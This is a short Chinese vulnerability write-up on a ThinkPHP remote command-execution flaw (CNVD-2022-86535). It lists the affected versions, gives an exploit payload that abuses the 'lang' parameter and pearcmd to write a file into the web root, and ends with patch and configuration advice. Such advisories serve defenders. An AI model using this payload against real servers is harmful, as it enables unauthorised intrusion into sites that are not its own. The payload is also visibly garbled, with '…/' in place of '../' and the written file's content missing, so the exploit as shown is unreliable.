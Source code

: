 # ThinkPHP 命令执行漏洞 CNVD-2022-86535

# ThinkPHP 命令执行漏洞 CNVD-2022-86535

## 漏洞描述

该漏洞是由于 Thinkphp 开启了多语言功能，并且对参数 lang 传参过滤不严谨，导致攻击者可利用该漏洞执行命令。

## 漏洞影响

```
ThinkPHP >=V6.0.1，<=V6.0.13
ThinkPHP >=V5.0.X，<=V5.1.X
```

## 漏洞复现

payload：

```
/index?lang=…/…/…/…/…/…/…/…/usr/local/lib/php/pearcmd&+config-create+/&/+/var/www/html/test.php
```

## 漏洞修复

官方已发布漏洞补丁及修复版本，可以评估业务是否受影响后，酌情升级至安全版本。

如不需要多语言功能，请及时关闭此功能，可参考官方文档：

- https://www.kancloud.cn/manual/thinkphp6_0/1037637
- https://static.kancloud.cn/manual/thinkphp5/118132

